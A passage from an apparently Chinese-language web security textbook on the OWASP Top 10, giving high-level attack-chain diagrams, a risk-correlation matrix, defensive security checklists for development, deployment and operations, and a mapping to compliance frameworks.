        A3 -->|"获取数据"| A4["A02 加密机制失效<br/>(明文存储)"]
        A4 -->|"无告警"| A5["A09 监控失效"]
    end
    
    subgraph "攻击链示例2: 供应链攻击"
        B1["A06 过时组件<br/>(Log4Shell)"] -->|"远程代码执行"| B2["A08 完整性失效<br/>(植入后门)"]
        B2 -->|"横向移动"| B3["A01 访问控制失效"]
        B3 -->|"窃取凭据"| B4["A02 加密失效<br/>(硬编码密钥)"]
    end
    
    subgraph "攻击链示例3: 云环境SSRF"
        C1["A10 SSRF"] -->|"获取IAM凭据"| C2["A07 认证失效<br/>(凭据泄露)"]
        C2 -->|"访问S3"| C3["A05 配置错误<br/>(桶公开)"]
        C3 -->|"读取源码"| C4["A02 加密失效<br/>(密钥泄露)"]
    end
```



#### 风险关联矩阵

| 攻击入口 | 可关联的风险 | 典型利用方式 |
|----------|-------------|-------------|
| A01 访问控制 | A05配置错误, A07认证失效 | 配置错误暴露管理接口→无认证保护 |
| A02 加密失效 | A09监控失效 | 数据泄露→无法及时发现 |
| A03 注入 | A07认证失效, A01访问控制 | SQL注入→绕过认证→提权 |
| A04 不安全设计 | 所有其他项 | 设计缺陷是其他漏洞的根源 |
| A05 配置错误 | A01访问控制, A02加密失效 | 错误配置→暴露未保护的接口 |
| A06 过时组件 | A08完整性失效 | 已知漏洞→远程代码执行 |
| A07 认证失效 | A01访问控制 | 账户接管→越权操作 |
| A08 完整性失效 | A06过时组件 | 供应链攻击→植入恶意代码 |
| A09 监控失效 | 放大所有风险 | 无法检测→攻击驻留时间延长 |
| A10 SSRF | A07认证失效, A05配置错误 | 云元数据→凭据泄露→横向移动 |

### 14.13.13 综合安全测试检查表

#### 开发阶段检查

```text
□ 完成威胁建模（STRIDE/PASTA）
□ 安全需求已纳入用户故事
□ 使用安全编码标准（OWASP ASVS）
□ 所有输入均有验证（类型、长度、范围、格式）
□ 所有输出均有编码（上下文感知：HTML/JS/URL/SQL）
□ 使用参数化查询，零字符串拼接
□ 认证使用成熟框架（不自研）
□ MFA已启用（至少TOTP）
□ 会话管理安全（超时、绑定、失效）
□ 敏感数据加密存储（Argon2id密码哈希、AES数据加密）
□ 全站HTTPS+HSTS
□ CORS仅允许受信任域名
□ API有速率限制
```

#### 部署前检查

```text
□ 生产环境DEBUG模式关闭
□ 默认凭据已修改
□ 安全头部已配置（CSP/HSTS/X-Frame等）
□ 错误页面不暴露技术细节
□ 不必要的服务和端口已关闭
□ 依赖组件已审计（SCA扫描）
□ Docker镜像已扫描（Trivy）
□ CI/CD管道已安全加固
□ 日志记录关键安全事件
□ 监控告警已配置
□ 备份和恢复方案已测试
□ 安全响应流程已建立
```

#### 运维持续检查

```text
□ 定期运行SCA扫描（每周）
□ 定期渗透测试（每季度）
□ CVE监控和补丁管理（持续）
□ 安全日志审查（每天）
□ 异常行为告警检查（持续）
□ 访问权限定期审查（每月）
□ 密钥和证书轮换（按策略）
□ 安全配置基线检查（每次变更后）
□ 事件响应演练（每半年）
□ SBOM更新和审查（每次发布）
```

### 14.13.14 OWASP Top 10 与合规框架的映射

| OWASP Top 10 | PCI DSS 4.0 | ISO 27001 | NIST CSF | 等保2.0 |
|--------------|-------------|-----------|----------|---------|
| A01 访问控制 | Req 7, 8 | A.9 | PR.AC | 身份鉴别, 访问控制 |
| A02 加密失效 | Req 3, 4 | A.10 | PR.DS | 数据保密性 |
| A03 注入 | Req 6.5 | A.14 | PR.IP | 安全审计 |
| A04 不安全设计 | Req 6.3 | A.14 | ID.SC | 安全设计 |
| A05 配置错误 | Req 2, 6.5 | A.14 | PR.IP | 安全配置 |
| A06 过时组件 | Req 6.3 | A.12 | PR.IP | 入侵防范 |
| A07 认证失效 | Req 8 | A.9 | PR.AC | 身份鉴别 |
| A08 完整性失效 | Req 6.5 | A.12, A.14 | PR.DS | 数据完整性 |
| A09 监控失效 | Req 10, 12 | A.16 | DE.CM | 安全审计 |
| A10 SSRF | Req 6.5 | A.13, A.14 | PR.AC | 网络架构 |

> OWASP Top 10不是合规清单的替代品，而是理解Web应用核心风险的入门框架。真正的安全需要将Top 10的思维方法融入开发全生命周期——从需求分析时的威胁建模，到编码时的安全实践，再到部署后的持续监控和响应。
